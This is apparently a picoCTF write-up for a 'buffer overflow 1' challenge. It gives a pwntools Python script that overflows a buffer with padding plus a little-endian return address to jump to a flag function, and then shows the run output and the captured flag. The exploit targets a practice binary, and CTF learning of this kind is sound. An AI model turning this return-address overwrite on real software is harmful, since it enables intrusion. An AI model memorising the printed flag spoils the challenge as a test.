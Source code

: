 Control the return address Now we're cooking! You can overflow the buffer and return to the flag function in the [program](https://artifacts.picoctf.net/c/250/vuln). You can view source [here](https://artifacts.picoctf.net/c/250/vuln.c). And connect with it using `nc saturn.picoctf.net 61041`

Hints:
1. Make sure you consider big Endian vs small Endian.
2. Changing the address of the return pointer can call different functions.

## Solución

------------------------------------------------------------------------
Podemos crear un código en python que nos ayude a romper la liga y obtener la bandera

``` python
from pwn import *

p = remote('saturn.picoctf.net', 51605)

overflow = 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xf6\x91\x04\x08'

print( p.recvuntil(':') )

p.sendline(overflow)

p.interactive()


```

``` bash
holiwiscach@ubuntu:~/buffer_overflow1$ python3 exp.py 
[+] Opening connection to saturn.picoctf.net on port 51605: Done
/home/holiwiscach/Escritorio/Seguridad/picoCTF/binary/buffer_overflow1/exp.py:7: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  print( p.recvuntil(':') )
b'Please enter your string:'
/home/holiwiscach/buffer_overflow1/exp.py:9: BytesWarning: Text is not bytes; assuming ISO-8859-1, no guarantees. See https://docs.pwntools.com/#bytes
  p.sendline(overflow)
[*] Switching to interactive mode
 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{addr3ss3s_ar3_3asy_ad2f467b}
```

bandera:
picoCTF{addr3ss3s_ar3_3asy_ad2f467b}